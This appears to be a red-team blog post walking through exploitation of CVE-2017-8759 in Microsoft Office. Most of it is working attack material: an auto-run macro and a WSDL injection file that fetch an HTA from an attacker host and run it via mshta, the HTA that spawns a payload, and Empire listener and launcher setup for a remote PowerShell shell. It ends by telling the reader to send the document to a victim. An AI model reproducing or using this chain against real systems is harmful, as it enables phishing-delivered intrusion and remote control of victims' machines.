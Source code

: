 ```yaml
---
layout: post
title: Exploiting CVE-2017-8759
---
```


<p></p>

FireEye have provided a detailed write-up on the vulnerability, so this won't go in to specifics of the vulnerability itself ([located here](https://www.fireeye.com/blog/threat-research/2017/09/zero-day-used-to-distribute-finspy.html)), but rather exploiting it to get a foothold on the victim's network as a red teamer or pentester.

The broad tl;dr of the issue itself is:

*Office macro abuses the WSDL parser to get a hta file that is run by Word that runs the attacker's payload.*

In the terms of our attack, the flow looks like this:

1. Victim receives your malicious Office document. (SE ftw)
2. The user allows the macro to run, which downloads a .txt file from your server
3. This triggers the flaw which grabs a .hta from your server
4. The hta is then executed and gives you a shell.

---

Start off by creating an Office document with an auto run macro:

```csharp
Sub AutoOpen()
Set x = GetObject("soap:wsdl=http://<attacker ip>:<port>/exploit.txt")
End Sub
```

Next, create the exploit.txt file:
```csharp
<definitions
    xmlns="http://schemas.xmlsoap.org/wsdl/"
    xmlns:soap="http://schemas.xmlsoap.org/wsdl/soap/"
    xmlns:suds="http://www.w3.org/2000/wsdl/suds"
    xmlns:tns="http://schemas.microsoft.com/clr/ns/System"
    xmlns:ns0="http://schemas.microsoft.com/clr/nsassem/Logo/Logo">
    <portType name="PortType"/>
    <binding name="Binding" type="tns:PortType">
        <soap:binding style="rpc" transport="http://schemas.xmlsoap.org/soap/http"/>
        <suds:class type="ns0:Image" rootType="MarshalByRefObject"></suds:class>
    </binding>
    <service name="Service">
        <port name="Port" binding="tns:Binding">
            <soap:address location="http://<attacker ip>:<port>?C:\Windows\System32\mshta.exe?http://<attacker ip>:<port>/cmd.hta"/>
                        <soap:address location=";
                        if (System.AppDomain.CurrentDomain.GetData(_url.Split('?')[0]) == null) {
                                System.Diagnostics.Process.Start(_url.Split('?')[1], _url.Split('?')[2]);
                                System.AppDomain.CurrentDomain.SetData(_url.Split('?')[0], true);
                        } //"/>
        </port>
    </service>
</definitions>
```

Then in the same directory, create your cmd.hta file:
```csharp
<html>
<head>
<script language="VBScript">
Sub window_onload
	const impersonation = 3
	Const HIDDEN_WINDOW = 12
	Set Locator = CreateObject("WbemScripting.SWbemLocator")
	Set Service = Locator.ConnectServer()
	Service.Security_.ImpersonationLevel=impersonation
	Set objStartup = Service.Get("Win32_ProcessStartup")
	Set objConfig = objStartup.SpawnInstance_
	Set Process = Service.Get("Win32_Process")
	Error = Process.Create("<payload>", null, objConfig, intProcessID)
	window.close()
end sub
</script>
</head>
</html>
```

I prefer to use Empire for my payloads, as more often than not the Powershell will be executed without too many hassles, but you could use a meterpreter stager if you wished. Setup a http listener in Empire to use a powershell launcher but make sure the port it listens on is different to the one specified in your exploit.txt and cmd.hta files.

```
(Empire: listeners/http) > info

    Name: HTTP[S]
Category: client_server

Authors:
  @harmj0y

Description:
  Starts a http[s] listener (PowerShell or Python) that uses a
  GET/POST approach.

HTTP[S] Options:

  Name              Required    Value                            Description
  ----              --------    -------                          -----------
  KillDate          False                                        Date for the listener to exit (MM/dd/yyyy).
  Name              True        http                             Name for the listener.
  Launcher          True        powershell.exe -nop -sta -w 1 Launcher string.
                                -enc
  DefaultLostLimit  True        60                               Number of missed checkins before exiting
  StagingKey        True        5]!<ItA:y0cdeOZ8VhGHzgUn|&@a[9wj Staging key for initial agent negotiation.
  BindIP            True        0.0.0.0                          The IP to bind to on the control server.
  DefaultProfile    True        /admin/get.php,/news.php,/login/ Default communication profile for the agent.
                                process.php|Mozilla/5.0 (Windows
                                NT 6.1; WOW64; Trident/7.0;
                                rv:11.0) like Gecko
  ServerVersion     True        Microsoft-IIS/7.5                Server header for the control server.
  WorkingHours      False                                        Hours for the agent to operate (09:00-17:00).
  Host              True        http://<attacker ip>:<port>      Hostname/IP for staging.
  CertPath          False                                        Certificate path for https listeners.
  DefaultJitter     True        0.0                              Jitter in agent reachback interval (0.0-1.0).
  DefaultDelay      True        5                                Agent delay/reach back interval (in seconds).
  Port              True        <port>                           Port for the listener.
  ```

Then, generate a launcher using stager/multi/launcher:
```
(Empire: stager/multi/launcher) > info

Name: Launcher

Description:
  Generates a one-liner stage0 launcher for Empire.

Options:

  Name             Required    Value             Description
  ----             --------    -------           -----------
  Listener         True        http              Listener to generate stager for.
  OutFile          False                         File to output launcher to, otherwise
                                                 displayed on the screen.
  Proxy            False       default           Proxy to use for request (default, none,
                                                 or other).
  SafeChecks       True        True              Switch. Checks for LittleSnitch or a
                                                 SandBox, exit the staging process if
                                                 true. Defaults to True.
  Language         True        powershell        Language of the stager to generate.
  ProxyCreds       False       default           Proxy credentials
                                                 ([domain\]username:password) to use for
                                                 request (default, none, or other).
  UserAgent        False       default           User-agent string to use for the staging
                                                 request (default, none, or other).
  Base64           True        True              Switch. Base64 encode the output.
  StagerRetries    False       0                 Times for the stager to retry
                                                 connecting.
```
Enter the generated command in to your < payload > in the cmd.hta file created previously. Ensure you have a web server running on the port specified in the various files, and then send the document to your victim.
If all goes well, you'll get a shell shortly after the document is opened. From here, standard host enumeration can be performed re: privilege escalation etc.

Happy hacking folks.